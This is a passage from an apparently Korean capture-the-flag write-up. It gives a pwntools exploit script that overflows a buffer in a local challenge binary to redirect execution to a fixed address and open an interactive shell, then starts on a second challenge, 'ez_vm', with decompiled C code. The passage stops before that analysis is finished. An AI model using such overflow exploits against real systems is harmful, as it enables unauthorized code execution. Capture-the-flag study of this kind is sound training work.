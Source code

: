 풀이 코드는 다음과 같습니다.

exploit.py

```py
#!/usr/bin/env python3
import sys, os
from pwn import *

TARGET= "./chall"
elf = ELF(TARGET)
HOST, PORT = 'localhost 11115'.split(' ')


def exploit(p):
    p.recvuntil(b"input")
    p.send(b"12\t"+b"A"*101 + p64(0x401256))
    p.interactive()
    return

if __name__ == "__main__":
    p = remote(HOST, PORT)
    exploit(p)
    exit(0)
```

#### ez_vm

main함수의 소스코드는 다음과 같습니다. buf에 opcode를 0x100 바이트 입력을 받고 sub_401215를 실행합니다. 4011A5나 4011EC같은 경우 그냥 init 함수들입니다.
```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  char buf[264]; // [rsp+0h] [rbp-110h] BYREF
  char s[8]; // [rsp+108h] [rbp-8h] BYREF

  sub_4011A5(a1, a2, a3);
  memset(s, 0, sizeof(s));
  sub_4011EC(&unk_404080);
  puts("opcode: ");
  memset(buf, 0, 0x100uLL);
  dword_404074 = 0;
  read(0, buf, 0x100uLL);
  while ( buf[dword_404074] )
  {
    sub_401215(&unk_404080, s, &buf[dword_404074]);
    dword_404074 += 8;
  }
  return 0LL;
}
```

sub_401215 이 함수를 살펴봅시다.
